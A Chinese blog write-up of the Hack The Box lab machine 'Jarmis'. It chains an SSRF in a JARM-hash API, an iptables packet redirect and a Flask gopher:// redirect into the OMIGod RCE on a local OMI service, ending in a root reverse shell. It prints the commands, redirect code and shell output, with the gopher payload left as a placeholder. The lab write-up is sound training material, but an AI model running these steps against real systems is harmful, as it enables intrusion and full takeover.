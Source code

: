 ```yaml
---
title: HTB_Jarmis
layout: "post"
---
```

好久没有在博客上发文章了，暑假忙着考OSWE一直没有写东西，上个月抽空给博客换了个主题，加了一个工具页，顺便把以前的低质量水文都清除掉了，这篇文章记录一下这两天在做的一道很有意思的HTB机器。  

## 主要策略

重定向特定请求，构造Gopher包SSRF_2_RCE

## 有关技巧

识别SSRF点，构造恶意TLS服务重定向请求，iptables过滤重定向指定包

## Recon

常规RECON略过不提，22，80端口，ubuntu 20.04， 访问80端口提示需要HOST头，修改HOSTS文件加上，再次访问，一个简易的网站：
![img](/assets/posts/jarmis/1.jpg)  
告诉我们这个网站是用来查找Jarm Hash的，我之前从来没听说过这玩意，放狗找了下大概是用hash来构造一个TLS服务的数据库，快速鉴别恶意服务。  
对几个用户输入点一顿FUZZ，啥结果没有。  
尝试暴力FUZZ子域名，啥也没有。  
尝试对网页路径进行爆破，爆出一个docs路径，是api接口的手册  
![img](/assets/posts/jarmis/2.jpg)  
第三个接口很有意思，具备发起请求的能力，马上本地起一个TLS服务试一试，注意这里说will grab metadata,是之后SSRF的关键  
![img](/assets/posts/jarmis/3.jpg)  
![img](/assets/posts/jarmis/4.jpg)  
收到回复，第一时间想到ssrf，于是测试127.0.0.1，这里我中招了浪费的好久时间，127.0.0.1等一系列都被过滤的很好，只有localhost能用  
先用这个SSRF点对本地端口进行扫描
![img](/assets/posts/jarmis/5.jpg)  
22，80 已知，新出现了5986和8001.因为80的端口是nginx反向代理，所以估计8001是本地监听的http服务，八成就是要打5986端口上的服务，然而5985，5986一般是windows的winrm服务，之前已知这台机器是Ubuntu，很奇怪，一开始以为是虚拟机，放狗找不到说SSRF能打winRM的，后来看到一篇文章，5986端口在Linux上有可能是OMI服务，有个CVE-2021-38647( OMIGod)能RCE，POC是简单HTTP POST请求，估计就是它了。这个服务5985和5986一般是成对存在的，我手动测5985也是活得，工具没有显示出来应该是timeout10秒设置太短了  

## exploit

然而，我们能控制服务发起一个请求，却无法控制请求的内容，这种SSRF一般都要用到重定向，然而我之前起的nc ssl服务，并没有看到能重定向的请求，这时前面说的会对恶意服务，抓元数据就是一个很明显的提示了，首先要先知道这个服务数据库里面存着那些恶意服务  
`for i in $(seq 0 222); do curl http://jarmis.htb/api/v1/search/id/$i>> jarms.json;done`  
先把数据下载下来，然后用jq分析  
`cat jarms.json| jq | less`  
`cat jarms.json | jq '. | select(.ismalicious==true)' | less`  
![img](/assets/posts/jarmis/6.jpg)  
`cat jarms.json | jq -c '. | select(.ismalicious==true) | [.id, .note]'`  
![img](/assets/posts/jarmis/7.jpg)  
起一个其中的metasploit看看是怎么抓元数据的,同时，起一个wireshark抓包  
这里又遇到一个恶心的点，我的handler的jarmhash和数据库里的对不上，一直抓不到抓元数据的包，本来直接用http_basic.rb模块应该是很方便的。  
没办法，只能换ncat  
测试出只要jarm匹配，他就会发一个包去抓元数据，因此，重定向这个包来做SSRF。  
可是因为用不了msf，筛选包的任务就落到别的程序上了，还好，iptables有这个功能。  
翻了翻man page 构造出下列命令  
`sudo iptables -I PREROUTING -t nat -p tcp --dport 443 -m statistic --mode nth --every 11 --packet 10 -j REDIRECT --to-port 8443`  
把发往我机器443端口的包，每11个包一组，在路由前，每匹配到10个包，就开始重定向到8443端口，也就刚好重定向第11个包。  

```text
$nc --ssl -lnp 8443
GET / HTTP/1.1
Host: 10.10.14.6
User-Agent: curl/7.74.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

收到请求  

接下来就常规了，这个包是https的，所以为了方便，我起了个Flask  

```python
from flask import Flask, redirect
from urllib.parse import quote
app = Flask(__name__)    


@app.route('/')    
def root():    
    return redirect('gopher://127.0.0.1:5985/_{gopher_Exp})', code=301)#这里打5985，5985和5986的区别就像80和443
    
    
if __name__ == "__main__":    
    app.run(ssl_context='adhoc', debug=True, host="0.0.0.0", port=8443)
```

反弹rootshell

```text
$nc -lnp 4444
bash: cannot set terminal process group (32938): Inappropriate ioctl for device
bash: no job control in this shell
root@Jarmis:/var/opt/microsoft/scx/tmp#
```

## 总结

总的来说还是比较直观的一道题，iptables过滤包很有意思。  
